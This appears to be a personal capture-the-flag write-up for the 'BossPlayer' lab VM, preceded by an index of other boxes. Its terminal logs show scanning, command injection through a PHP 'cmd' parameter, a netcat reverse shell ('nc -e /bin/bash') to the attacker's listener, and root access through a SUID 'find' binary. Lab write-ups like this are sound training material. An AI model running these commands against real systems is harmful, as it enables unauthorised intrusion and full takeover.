


Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
BossPlayer
root@kali:~# sudo nmap -PS 192.168.56.1-255Nmap scan report for 192.168.56.102
Host is up (0.00011s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 08:00:27:80:C2:7A (Oracle VirtualBox virtual NIC)
root@kali:~# sudo nmap -A -p- 192.168.56.102
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-26 15:27 EDT
Nmap scan report for 192.168.56.102
Host is up (0.00036s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey:
| 2048 ac:0d:1e:71:40:ef:6e:65:91:95:8d:1c:13:13:8e:3e (RSA)
| 256 24:9e:27:18:df:a4:78:3b:0d:11:8a:92:72:bd:05:8d (ECDSA)
|_ 256 26:32:8d:73:89:05:29:43:8e:a1:13:ba:4f:83:53:f8 (ED25519)
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:80:C2:7A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.36 ms 192.168.56.102
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.37 seconds

root@kali:~# dirb http://192.168.56.102/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Sat Oct 26 15:34:02 2019
URL_BASE: http://192.168.56.102/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.102/ ----
+ http://192.168.56.102/index.html (CODE:200|SIZE:575)
+ http://192.168.56.102/robots.txt (CODE:200|SIZE:53)
+ http://192.168.56.102/server-status (CODE:403|SIZE:302)
-----------------
END_TIME: Sat Oct 26 15:34:03 2019
DOWNLOADED: 4612 - FOUND: 3
root@kali:~#

super secret password - bG9sIHRyeSBoYXJkZXIgYnJvCg==
Which is base64 encoded?
Decoded it is: lol try harder bro
In index.html source:
<!--WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK-->
Using cyberchef decoded from base64 3 times:
workinginprogress.php
Went to the page in browser:
System Install:
Linux Debian - [*]
APACHE2 - [*]
PHP - [*]
Outstanding:
Test ping command - [ ]
Fix Privilege Escalation - [ ]
Completed:
Say Hi to Haley - [*]
PHP is injectible:
http://192.168.56.102/workinginprogress.php?cmd=ls
You can see at the bottom of the doc:
index.htmllogs.phprobots.txtworkinginprogress.php
Show passwd file contents:
http://192.168.56.102/workinginprogress.php?cmd=cat%20/etc/passwd
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinsystemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:104:110::/nonexistent:/usr/sbin/nologinavahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologincuong:x:1000:1000:cuong,,,:/home/cuong:/bin/bashsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinsshd:x:106:65534::/run/sshd:/usr/sbin/nologin
→ There is a user cuong
To exploit command injection:
We will be using the netcat invoke shell one-liner.
Before running that we need a netcat listener to receive the shell that is going to be invoked.
nc -lvp 1234
--> nc -e /bin/bash [my address] [port]
http://192.168.1.107/workinginprogress.php?cmd=nc -e /bin/bash 192.168.56.1 1234
---> to get a proper shell
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.102] 58300
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bossplayers:/var/www/html$
FIND files/bin with improper permissions set:
find / -perm -u=s -type f 2>/dev/null
www-data@bossplayers:/etc$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/mount
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/grep
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
www-data@bossplayers:/etc$ find . -exec /bin/sh -p \; quit
find . -exec /bin/sh -p \; quit
find: paths must precede expression: `quit'
www-data@bossplayers:/etc$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# ls
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
Y29uZ3JhdHVsYXRpb25zCg==
#
from base64 is congratulations
FIN